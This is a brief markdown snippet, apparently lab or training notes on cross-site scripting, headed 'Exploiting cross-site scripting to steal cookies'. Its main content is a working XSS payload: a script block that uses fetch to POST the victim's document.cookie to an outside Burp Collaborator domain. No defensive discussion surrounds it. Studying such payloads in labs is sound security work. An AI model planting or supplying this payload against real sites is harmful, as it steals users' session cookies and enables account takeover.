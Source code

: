 
# XSS

## Exploiting cross-site scripting to steal cookies

<script>
fetch('https:p9z114dhnywgf8ct7kwnwidujlpid7.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

p9z114dhnywgf8ct7kwnwidujlpid7.burpcollaborator.net